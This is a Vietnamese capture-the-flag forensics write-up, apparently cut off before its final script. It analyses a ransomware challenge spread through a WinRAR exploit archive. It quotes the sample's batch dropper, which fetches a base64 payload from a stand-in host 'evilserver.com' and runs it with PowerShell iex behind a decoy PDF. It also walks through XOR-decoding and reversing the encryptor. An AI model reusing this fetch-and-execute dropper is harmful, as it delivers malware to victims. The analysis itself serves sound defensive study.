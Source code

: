Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v, nhưng đã đổi thành zip extension. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan. Nên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![image](https://github.com/NVex0/uWU/assets/113530029/61bdf04f-ae23-4596-9d66-749b23b84977)

Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![image](https://github.com/NVex0/uWU/assets/113530029/07075e86-fee5-4a20-8c38-3dc7c254b054)

Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main:

![image](https://github.com/NVex0/uWU/assets/113530029/59ee015a-6dd1-4eaf-b416-4d35c7c65b5c)

Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:

+ Đầu tiên là 1 byte key blob type. Theo doc của microsoft, key blob type có 8 loại. Cái này mình sẽ bruteforce vì mình không biết key là loại nào.

+ Tiếp đến là 1 byte version, mà theo mình đọc thì nó thường được set = 0x02:

![image](https://github.com/NVex0/uWU/assets/113530029/ce8bdf12-a75b-4ef0-bfef-d79a1e181c70)

+ 2 bytes reversed, theo như doc của microsoft thì `must be set to zero`, vậy là mình có 0000.

+ Tiếp là 4 bytes ALG_ID lưu dưới dạng little endian, như đã nói trên, ở dưới mình thấy có hàm `CryptSetKeyParam` set các giá trị như cipher mode, padding mode, iv các thứ. Từ đó mình đoán rằng mã hóa này là AES, nhưng key length không rõ, nên mình sẽ thử ALG_ID của tất cả các loại length AES.

Mình brute và giải mã luôn bằng script sau:
